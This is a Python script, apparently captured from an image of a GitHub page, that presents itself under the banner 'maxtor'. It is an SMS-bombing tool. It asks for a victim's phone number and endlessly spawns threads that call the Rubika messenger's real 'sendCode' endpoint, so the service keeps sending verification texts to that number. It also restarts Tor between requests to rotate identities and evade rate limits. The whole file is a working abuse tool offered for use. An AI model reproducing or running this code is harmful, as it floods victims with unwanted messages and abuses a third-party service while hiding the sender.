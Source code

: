 import os
import time
import requests
from threading import Thread
from colorama import Fore
from time import sleep

proxy = {"https": "127.0.0.1.8000"}
os.system("clear")
print(Fore.GREEN)
print("""                                                                                                                                      _____                    
 _ __ ___   __ ___  _| |_ ___  _ __ 
| '_ ` _ \ / _` \ \/ / __/ _ \| '__|
| | | | | | (_| |>  <| || (_) | |   
|_| |_| |_|\__,_/_/\_\\__\___/|_|

""")
sleep(2)
os.system("clear")
print(Fore.RED)
print("""
>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>
 _ __ ___   __ ___  _| |_ ___  _ __ 
| '_ ` _ \ / _` \ \/ / __/ _ \| '__|
| | | | | | (_| |>  <| || (_) | |   
|_| |_| |_|\__,_/_/\_\\__\___/|_|

<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<


  ------ >>>>>> t.me/arshia_4700

""")


# !/usr/bin/python


def rubika(phone):
    # rubika api
    ruH = {"Host": "messengerg2c4.iranlms.ir", "content-length": "96", "accept": "application/json, text/plain, */*",
           "user-agent": "Mozilla/5.0 (Linux; Android 9; SM-G950F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.111 Mobile Safari/537.36",
           "content-type": "text/plain", "origin": "https://web.rubika.ir", "sec-fetch-site": "cross-site",
           "sec-fetch-mode": "cors", "sec-fetch-dest": "empty", "referer": "https://web.rubika.ir/",
           "accept-encoding": "gzip, deflate, br",
           "accept-language": "fa-IR,fa;q\u003d0.9,en-GB;q\u003d0.8,en;q\u003d0.7,en-US;q\u003d0.6"}
    ruD = {"api_version": "3", "method": "sendCode", "data": {"phone_number": phone.split("+")[1], "send_type": "SMS"}}
    try:
        ruR = requests.post("https://messengerg2c4.iranlms.ir/", headers=ruH, json=ruD, proxies=proxy)
        if "OK" in ruR.text:
            print("sended sms:)")
        else:
            print("maxtor")
    except:
        print("maxtor")


def main():
    phone = str(input("""
                  ---------------------------------------
                -------------------------------------------
              _____________________________
             _________________________________________
            ———————————————————————————————————————————————————
           ∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞
          ≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠
         ≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈
        ××××××××______×××××××××××××××××××××××××××××××××_____×××××××
       ‡‡†‡‡‡‡‡‡|     |†‡†‡‡†‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡|     |‡††††††
       ‡‡‡‡‡‡‡‡‡|     |‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡|     |‡††‡‡‡‡‡
       ‡‡‡‡‡‡‡‡‡|     |‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡|     |‡‡‡‡‡‡‡‡
       ‡‡‡‡‡‡‡‡‡‡_____‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡_____‡‡‡†‡‡‡‡‡
       ‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡
       ‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡
       ‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡\\\\\\\\\\\\\\‡//////////////‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡
       ‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡\                         /‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡
       ‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡\                       /‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡
       ‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡
       ‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡
        ††††††††††††††††††††††††††††††††††††††††††††††††††††††††††††
         ★★★★★★★★★★★★★★★★★★★★★★★★★★★★★★★★★★★★★★★★★★★★★★★★★★★★★★★★★★
          ________________________________________________
           -------------------------------------------------------
            +++++++++++++++++++++++++++++++++++++++++++++++++++++
             *******************************************
#666

 Number>> (+989026100478): """))
    while True:
        Thread(target=rubika, args=[phone]).start()
        os.system("killall -HUP tor")
        time.sleep(3)


if __name__ == "__main__":
    main()
